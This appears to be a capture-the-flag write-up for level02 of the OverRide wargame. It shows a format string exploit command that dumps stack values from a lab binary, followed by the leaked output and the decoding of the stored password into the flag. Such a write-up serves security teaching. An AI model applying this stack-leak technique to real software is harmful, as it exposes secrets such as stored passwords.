 ## Project README: Finding flag02

When we decompile we can see tat he open the file .pass and reat it into the ptr value. 
Secondl he ask for a username and a password.
Then compare the password we gave with the actual password. If it's the same launch bin sh else exit.

### Analysis
we can see that there is a format string exploit to do if the password is not the same. 
And we know that our password is in the stack.
So what we can do is printing the stack and then see our password.


### Progress

```Bash
level02@OverRide:~$ python -c 'print("AAAA" + " %p"*60)' | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
AAAA 0x7fffffffe500 (nil) 0x70 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025 (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 0x2070252041414141 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
So the 2a equal * and "207025" is our payload : " %p".
Then we can search for a string that is 40 char long and have a \0 at the end. 
We have this thing "0xfeff00" that looks like a null bite and before it we have 
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d that is exactly 40 char long. If we convert to str :
"unPR47hH" + "EAJ5as9Q" + "7zqCWNgX" + "5J5hnGXs" + "H3gPfK9M". But actually we want the reverse of this because of little endian. 
let's try this : 
python -c 'print("unPR47hH"[::-1] + "EAJ5as9Q"[::-1] + "7zqCWNgX"[::-1] + "5J5hnGXs"[::-1] + "H3gPfK9M"[::-1])'

python -c 'print("unPR47hH"[::-1] + "EAJ5as9Q"[::-1] + "7zqCWNgX"[::-1] + "5J5hnGXs"[::-1] + "H3gPfK9M"[::-1])'
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

ET VOILA we have our flag.
